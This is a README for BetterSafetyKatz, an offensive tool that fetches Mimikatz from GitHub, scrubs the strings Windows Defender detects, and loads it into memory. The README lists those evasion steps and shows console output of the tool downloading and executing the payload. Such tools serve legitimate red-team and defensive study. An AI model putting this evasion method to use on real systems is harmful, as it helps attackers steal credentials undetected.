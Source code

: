 # BetterSafetyKatz?

This modified fork of SafetyKatz dynamically fetches the latest pre-compiled release of Mimikatz directly from the gentilkiwi GitHub repo, 
runtime patching on detected signatures and uses @subtee's PE Loader to get it into memory.

1. Gets the URL for the latest ZIP / PreCompiled Mimikatz binary directly from GitHub Repo
2. Unzipped in memory, turned into HEX. Then strings/signatures detected by Windows Defender are replaced with random strings of the same size 
    (Spent ~6 hours using https://github.com/matterpreter/DefenderCheck mapping signatures to replace)
3. PE-Loaded into mem using @subtee POC (Added delays between mapping of DLLs-> Functions , Windows Defender thought it was to fast..)


Stolen from @harmj0y, @subtee and @gentilkiwi, repurposed by @Flangvik and @Mrtn9

[@harmj0y](https://twitter.com/harmj0y) is the primary author of the port that this repo is forked from.

BetterSafetyKatz is licensed under the BSD 3-Clause license.

## Usage

    PS D:\Projects\SafetyKatz\SafetyKatz\bin\Debug> .\SafetyKatz.exe                                                      
	
	[+] Stolen from @harmj0y, @subtee and @gentilkiwi, repurposed by @Flangvik and @Mrtn9
	[+] Contacting gentilkiwi -> https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20200502/mimikatz_trunk.zip
	[+] Randomizing strings in memory
	[+] Mapping DLL Ptrs into memory, but doing it sloooooowly (10 sec tops)
	[+] Executing loaded Mimikatz PE

	  .#####.   I7HC7OQ4 2.2.0 (x64) #18362 May  2 2020 16:23:51
	 .## ^ ##.  "CY76SIXX8WBAQF6XOOD" - (WMW0I)
	 ## / \ ##  /*** 1JKD5SDQM0EOSP `XGOPX1Y6CK` ( S9NK2HO6@XGOPX1Y6CK.com )
	 ## \ / ##       > http://blog.XGOPX1Y6CK.com/I7HC7OQ4
	 '## v ##'       P26TMNHP22ZGVUF             ( 45F6XVOMFTRJL6BXRNB86A5W )
	  '#####'        > KMPG3ATJL9YDWTE9SYW0Z / D14BS2FKVSL0DZA4VOONS7K   ***/

	I7HC7OQ4 # coffee

		( (
		 ) )
	  .______.
	  |      |]
	  \      /
	   `----'

	I7HC7OQ4 #


